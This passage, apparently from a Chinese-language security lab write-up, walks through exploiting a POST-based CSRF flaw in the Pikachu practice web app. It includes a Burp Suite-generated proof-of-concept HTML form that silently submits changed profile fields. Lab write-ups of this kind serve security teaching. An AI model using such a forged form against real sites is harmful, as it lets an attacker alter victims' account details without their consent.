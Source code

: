同样,登陆,修改一下个人信息,并到 Brup Suite 上进行抓包,对于 POST型,请求已经不能通过修改 URL 来借用用户权限,那么需要自己做一个表单,再返回到提交页面来完成修改.

**漏洞利用**

直接从 burp 生成 poc 表单

![image](../../../../assets/img/安全/实验/Misc/pikachu/21.png)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://<IP address>/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="futa1" />
      <input type="hidden" name="phonenum" value="1110" />
      <input type="hidden" name="add" value="1213" />
      <input type="hidden" name="email" value="lil1i&#64;pikachu&#46;com1" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![image](../../../../assets/img/安全/实验/Misc/pikachu/22.png)

